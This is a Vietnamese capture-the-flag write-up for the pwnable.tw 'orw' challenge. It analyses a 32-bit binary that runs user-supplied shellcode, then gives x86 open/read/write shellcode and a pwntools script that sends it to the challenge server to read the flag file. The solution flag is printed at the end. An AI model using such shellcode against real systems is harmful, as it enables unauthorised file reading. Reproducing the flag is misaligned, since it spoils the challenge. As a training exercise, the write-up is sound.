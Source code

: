 **1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra ta có:

```
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

Là file ELF 32bit -> Mở bằng IDA ta có source như sau:

![main.png](photo/main.png)

Chương trình cho phép mình nhập vào 1 chuỗi và thực thi chuỗi mình nhập vào.

![bof.png](photo/bof.png)

Quan sát ta thấy chương trình cho phép nhập vào 0xc8 và sau đó cộng esp với 0x10 -> Có lỗi bof

Dùng lệnh 'checksec' để kiểm tra ta có:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Ở đây thì stack đã Canary found và NX disabled nên có thể thực thi shellcode

**2. Ý tưởng**

Như đề bài đã gợi ý thì sẽ sử dụng hàm 'open' để mở '/home/orw/flag'. Dùng hàm 'read' để đọc nội dung file và dùng hàm 'write' để ghi file

**3. Khai thác**

Đầu tiên chúng ta cần 1 con trỏ để trỏ tới chuỗi '/home/orw/flag' để thực thi các hàm

Đổi từng ký tự trong chuỗi về mã ascii và biểu diễn dưới dạng số hexa

![chuoi.png](photo/chuoi.png)

Tiếp theo sẽ viết mã asm để mở tệp trên

```
mov ecx, 0
mov edx, 0
mov ebx, esp
mov eax, 5
int 0x80
```

Tiếp theo là mã asm để đọc nội dung tệp

```
mov ecx, esp
mov edx, 0x100
mov ebx, eax
mov eax, 3
int 0x80
```

Tiếp theo là ghi nội dung của tệp vừa đọc được

```
mov eax, 4
mov ebx, 1
int 0x80
```

Sau khi tạo xong thì thử check xem lúc call thì có call shellcode mình đã viết chưa

![shell.png](photo/shell.png)

Như vậy chương trình đã chạy đúng shell mình viết

Ta có script như sau:

```
from pwn import *

#r = process('./orw')
r = remote('chall.pwnable.tw', 10001)

payload = asm(
    '''
    push 26465
    push 1818636151
    push 1919889253
    push 1836017711

    mov ecx, 0
    mov edx, 0
    mov ebx, esp
    mov eax, 5
    int 0x80

    mov ecx, esp
    mov edx, 0x100
    mov ebx, eax
    mov eax, 3
    int 0x80

    mov eax, 4
    mov ebx, 1
    int 0x80
    ''', os='linux', arch='i386'
)

#input()
r.sendafter(b'shellcode:', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}`